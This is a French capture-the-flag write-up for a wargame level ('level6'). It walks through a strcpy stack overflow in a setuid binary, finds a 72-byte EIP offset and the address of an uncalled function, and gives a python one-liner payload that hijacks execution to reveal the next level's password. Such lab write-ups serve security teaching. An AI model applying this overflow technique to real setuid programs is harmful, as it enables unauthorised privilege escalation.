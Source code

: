 ## Comportement
- J'ai des droits `level6` que je peux vérifier en tapant `whoami`
- Un binaire est présent avec des droits différents : `-rwsr-s---+ 1 level7 users  5274 Mar  6  2016 level6*`
- En exécutant le binaire (`./level6`), on observe:
  - qu'il attend un argument de notre part. (`./level6 hello`)
  - pour chaque argument passe il inscrit `Nope`.
  - sans argument, le programme segfault.


## Analyse
- Une fonction qui nous serait tres utile n'est jamais appelee : `n()`. Au lieu de cela un appel est fait a une autre fonction, qui nous est inutile : `m()`. Il faut overwrite l'appel a cette fonction.
- Utilisation de `strcpy()` qui est vulnerable si l'n ne check pas au prealable l'input de l'utilisateur. Ce qui est le cas ici. 


## Résolution
- On overwrite l'`eip` en trouvant son offset avec un pattern generator comme dans un precedent exercice. On obtient 72. 
- On trouve l'adresse de `n()`
  ```shell
    (gdb) info function n
    ...
    0x08048454  o
    ...
    (gdb)
  ```
- On craft notre payload:
  - avec l'adresse d'`n()` en little endian => `\x54\x84\x04\x08` (4 bytes)
  - et on l'integre comme premier argument puisque le programme en attend un sinon il crash.
  ```shell
  python -c 'print "A" * 72 + "\x54\x84\x04\x08"' > /tmp/payload
  ./level6 $(cat /tmp/payload)
  ```
- On obtient directement le password. Il nous reste plus qu'a passer au level7 (`su level7`) en renseignant ce password.
